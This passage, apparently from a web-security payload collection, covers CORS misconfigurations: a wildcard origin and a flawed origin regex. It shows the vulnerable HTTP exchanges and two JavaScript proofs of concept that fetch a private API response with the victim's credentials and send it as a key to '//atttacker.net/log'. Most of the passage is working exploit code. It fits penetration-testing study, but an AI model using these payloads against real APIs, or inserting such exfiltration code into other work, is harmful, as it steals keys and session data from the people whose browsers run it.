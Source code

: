 #### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

### Vulnerable Example: Expanding the Origin / Regex Issues
Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server. 

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 1)

This PoC requires the respective JS script to be hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
